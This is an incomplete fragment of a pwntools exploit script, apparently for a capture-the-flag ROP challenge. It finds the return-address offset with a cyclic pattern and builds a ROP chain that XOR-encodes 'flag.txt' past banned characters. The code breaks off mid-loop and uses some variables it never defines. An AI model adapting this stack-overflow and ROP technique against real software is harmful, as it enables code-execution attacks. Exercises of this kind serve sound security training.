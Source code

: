```python
junkaddr = 0x6161616161616161
k = 0x000000000000004b
xor_gadget = 0x0000000000400628

badchars = ['a','g','.','x']


# Print out the target address
info("%#x writable .data section", datasection)
info("%#x mov QWORD PTR [r13+0x0], r12", mov_qword_gadget)
info("%#x pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret", pop_r12_r13_r14_r15)
info("%#x fl*,et3t (flag.txt) string", flagtxtstr)
info("%#x pop rdi ; ret", pop_rdi_gadget)
info("%#x pop r14 ; pop r15 ; ret", pop_r14_r15_gadget)
info("%#x Value of K used to xor", k)
info("%#x xor BYTE PTR [r14],r14b ; ret", xor_gadget)
info("%#x call print_file", call_print_file)
info("%#x random junk address", junkaddr)
print("Bad characters:", badchars)


##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####

# We will send a 'cyclic' pattern which overwrites the return address on the stack
# needs alphabet parameter so that banned characters aren't used.
payload = cyclic(200,alphabet='bcdefhijk')

# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)

# Wait for the process to crash
io.wait()

# Open up the corefile created after crash
core = io.corefile

stack = core.rsp
info("%#x stack", stack)

# Read four bytes from RSP, which will be some of our cyclic data.
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
# cyclic find needs alphabet parameter so that banned characters aren't used.
offset = cyclic_find(pattern, alphabet='bcdefhijk')
info("%r pattern (offset: %r)", pattern, offset)

##### CRAFTING PAYLOAD #####

payload = b""
payload += b'A' * offset
payload += p64(pop_r12_r13_r14_r15)
payload += p64(flagtxtstr)
payload += p64(datasection)
payload += p64(junkaddr)
payload += p64(junkaddr)
payload += p64(mov_qword_gadget)

    
for char in badchars:
    payload += p64(pop_r14_r15_gadget)
    payload += p64(k)
    if char == 'a':
```